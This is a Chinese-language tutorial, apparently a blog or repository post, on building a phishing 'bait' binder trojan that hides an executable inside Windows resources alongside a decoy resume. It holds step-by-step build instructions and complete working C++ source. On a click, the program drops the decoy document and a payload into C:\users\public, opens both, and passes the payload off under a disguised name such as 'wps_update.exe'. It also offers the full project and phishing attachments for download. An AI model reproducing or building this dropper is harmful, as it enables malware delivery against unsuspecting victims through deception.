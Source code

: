 # 鱼饵-资源文件 捆绑马

## 目录

- [0x00 手法介绍](#0x00-手法介绍)
- [0x01 复现步骤](#0x01-复现步骤)
- [0x02 代码函数详解](#0x02-代码函数详解)
- [0x03 代码展示](#0x03-代码展示)

# 0x00 手法介绍

通过资源文件进行捆绑马的制作，主要是利用 Windows 系统 API 中的资源机制，将一个或多个文件添加到程序中作为资源，并在运行时从程序资源中获取相应的文件数据。

最主要的目的是点击exe后，能打开附件并自动执行木马文件。这和winrar捆绑马有很多的相似之处，都是点击捆绑马后释放到某个目录执行。但不同点在于执行前后的代码逻辑，可以通过C++代码进行设计。如可以增加沙箱检测机制，也可以增加点击自删除机制等等，主打的就是一个定制化~

# 0x01 复现步骤

在这里使用Visual Stdio 2019来创建资源文件

pass:文章末有关键字，回复可获取打包的整个项目。


1.资源文件->添加->资源

![](image/image_Y7Lei1hLN1.png)

2.在"增加资源"中选择"导入"

![](image/image_eoRu9ZhV4l.png)

3.在这里选择"所有文件( *.*)"

![](image/image__877LTcOPS.png)

4.使用资源文件进行捆绑，会存在文件导入的顺序问题。资源文件会默认按照文件后缀24个字母的排序顺序对导入的文件进行释放。因此在我们导入文件时，也必须按照24个英文字母的顺序对文件进行导入。如这里必须"金融研究生简历.docx">"calc.exe">"docx.ico"这个顺序进行导入。

![](image/image_28yVJldaBI.png)

5.当我们选择完文件后，需要在"资源类型"处输入当前文件的后缀，第一个文件是docx。

![](image/image_pgDy6XEdKX.png)

6.第二个文件是calc.exe，因此资源类型处要填写"exe"

![](image/image_8z1nGUByI_.png)

7.当我们把ico文件也导入后。就可以在这里看到我们导入的三个文件了。

![](image/image_7ZPHpXWJ9f.png)

8.最后编译出来的就是带有docx图标的exe文件了

![](image/image_XToIyxIDFI.png)

9.当我们点击捆绑马后，首先会在c:\users\public\目录下按照顺序生成"西交利物浦大学金融研究生简历.docx"并打开，再生成"kabers.exe" 后进行打开。

![](image/image_Mhw00VYaXe.png)

![](image/image_NppjOAoBJ-.png)

# 0x02 代码函数详解

对文件"释放路径"以及释放后的"名称"进行设置。

在这里释放路径为"C:\\\users\\\public\\\\"，也可以改为其他可写入目录。

同时也可以针对目标的业务，来对释放后的exe名称进行合理编写。如果对方是公司文员，那么可以使用"wps\_update.exe"进程名作为烟雾弹。

```c++
//引入需要的头文件和命名空间，定义全局变量和字符串常量。
static int num = 0;
//在这里定义释放后的exe名称
static string EXE = "kabers.exe";
//在这里定义释放后的附件名称
static string Filename = "简历.docx";
//在这里定义释放路径具体位置
CHAR czTempPath[MAX_PATH] = "C:\\users\\public\\";
```

在 EnumTypesFunc() 函数中，首先获取资源类型，并将其转换为字符串类型。

```c++
    num++;
    char* a = new char[10];
    WideCharToMultiByte(CP_OEMCP, NULL, lpType, -1, a, 6, NULL, FALSE);
    string fileType = string(a);
```

首先，使用 FindResourceA() 函数在当前进程中查找指定资源类型和名称的资源，并返回该资源的句柄。

```c++
HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(100 + num), fileType.c_str());

```

然后，使用 LoadResource() 函数加载指定资源到内存，并返回该资源的全局内存句柄。

```c++
HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
```

&#x20;&#x20;

接着，使用 SizeofResource() 函数获取该资源的大小。

```c++
DWORD FileSize = SizeofResource(NULL, Resource);

```

最后，使用 LockResource() 函数将资源数据锁定到内存中，并返回该资源数据的指针。

```c++
LPVOID PFILE = LockResource(ResourceGlobal);
```

# 0x03 代码展示

```c++
#include <iostream>
#include <windows.h>
#pragma comment( linker, "/subsystem:windows /entry:mainCRTStartup" )

using namespace std;

//引入需要的头文件和命名空间，定义全局变量和字符串常量。
static int num = 0;
//在这里定义释放后的exe名称
static string EXE = "kabers.exe";
//在这里定义释放后的附件名称
static string Filename = "简历.docx";
//在这里定义释放路径具体位置
CHAR czTempPath[MAX_PATH] = "C:\\users\\public\\";

//定义 EnumTypesFunc() 函数，该函数用于处理枚举到的资源类型。
void EnumTypesFunc(HMODULE hModule, LPTSTR lpType, LPTSTR lParam) {
    string Name = "";
    CHAR PathFileName[MAX_PATH] = { 0 };
    CHAR FileName[MAX_PATH] = { 0 };

    //在 EnumTypesFunc() 函数中，首先获取资源类型，并将其转换为字符串类型。
    num++;
    char* a = new char[10];
    WideCharToMultiByte(CP_OEMCP, NULL, lpType, -1, a, 6, NULL, FALSE);
    string fileType = string(a);

    //首先，使用 FindResourceA() 函数在当前进程中查找指定资源类型和名称的资源，并返回该资源的句柄。
    HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(100 + num), fileType.c_str());
    //然后，使用 LoadResource() 函数加载指定资源到内存，并返回该资源的全局内存句柄。
    HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
    //接着，使用 SizeofResource() 函数获取该资源的大小。
    DWORD FileSize = SizeofResource(NULL, Resource);
    //最后，使用 LockResource() 函数将资源数据锁定到内存中，并返回该资源数据的指针。
    LPVOID PFILE = LockResource(ResourceGlobal);

    //根据资源类型判断需要提取的文件名，并构造保存文件的完整路径。
    if (fileType == "EXE") {
        Name = EXE;
    }
    else {
        Name = Filename;
    }
    string FileNameFinal = czTempPath + Name;
    strcpy_s(FileName, FileNameFinal.c_str());

    //使用 CreateFileA() 函数创建一个新的文件，并将资源数据写入该文件中。
    HANDLE FILE = CreateFileA(FileName, FILE_ALL_ACCESS, 0, NULL, CREATE_ALWAYS, 0, NULL);
    DWORD dwSize;
    WriteFile(FILE, PFILE, FileSize, &dwSize, NULL);
    CloseHandle(FILE);

    //使用 ShellExecuteExA() 函数启动刚才提取的文件
    Sleep(100);
    SHELLEXECUTEINFOA shellexecute = { 0 };
    shellexecute.cbSize = sizeof(shellexecute);
    shellexecute.lpFile = FileName;
    shellexecute.nShow = SW_SHOW;
    ShellExecuteExA(&shellexecute);
}


int main(int argc, char* argv[])
{
    //在 main() 函数中使用枚举函数 EnumResourceTypes() 枚举所有资源类型
    EnumResourceTypes(NULL,
        (ENUMRESTYPEPROC)EnumTypesFunc,
        0);                         
}

```

我也将整个项目都进行了打包，下载后双击即可打开进行编辑，在后台回复“资源”即可获取\~

![](image/image_V9DlY1QlH6.png)

回复"附件”即可获取如下钓鱼常用附件！

![](image/image_f0FH7D1tqh.png)

![](image/image_qQVqyynphz.png)

![](image/image_4RIiwN-QTh.png)
